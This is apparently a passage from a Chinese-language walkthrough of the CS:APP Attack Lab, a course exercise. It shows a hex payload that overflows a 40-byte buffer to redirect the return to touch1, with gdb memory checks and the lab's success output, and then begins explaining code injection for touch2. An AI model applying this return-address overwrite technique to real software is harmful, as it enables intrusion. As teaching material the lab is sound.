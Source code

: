 ```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

其中前面 5 行，每行 8 个字节，一共 40 个字节填充了栈中的 buffer，接着填入 `c0 17 40` 替换之前的返回地址，这里要注意填入的顺序，返回地址是 `0x4017c0`，在填入 buffer 的时候，顺序是按地址从小到大依次填入每个字符，所以应该填入 `c0 17 40`，这样从地址中拿到的数据才是 `0x4017c0`。

接着可以通过 `gdb` 验证一下输入这样的 string 后 stack 中的内存变化

```js
(gdb) x/6gx $rsp
0x5561dc78:     0x0000000000000000      0x0000000000000000
0x5561dc88:     0x0000000000000000      0x0000000000000000
0x5561dc98:     0x0000000000000000      0x00000000004017c0
```

发现确实已经生效了，最后通过下面的方式验证 level1 攻击已经成功。

```shell
./hex2raw -i ctarget.1.txt| ./ctarget -q

Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
```

通过上面的信息提示可以看到，我们已经成功的调用了 `touch1`。

#### 0x1.2 Level 2

level2 攻击需要对输入的字符串插入一小段可执行的代码，除了要求程序返回的时候跳转到 `touch2` 这个函数，还需要 `val==cookie` 这个条件满足。

```c
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
    }
    exit(0);
}
```

如果要执行到 `touch2`，那么和 level1 类似，只需要输入字符让其 overflow 栈中的内存，覆盖掉之前的返回地址即可。另外的一个需求是要对函数 `touch2` 的第一个参数修改为 `cookie` 这个值，需要插入一段汇编代码，但是如何让插入的这段汇编代码执行呢？

原理可以用下面的这幅图来表示

<img src='/assets/csapp-attack/attack_preview.png' width='500'>

相当于在 Q stack frame 中插入一段字符串，不过不要用 `touch1` 的地址去覆盖之前的返回地址，而是用 B 的地址去覆盖，这样程序在执行完 Q 之后就会跳到 B 的地址出继续执行，而 B 地址出的内存是我们通过 string 传入的内容，这样我们就可以传入一段可以执行的命令，在执行完之后，通过 `retq` 再跳转到 `touch2` 的执行地址。
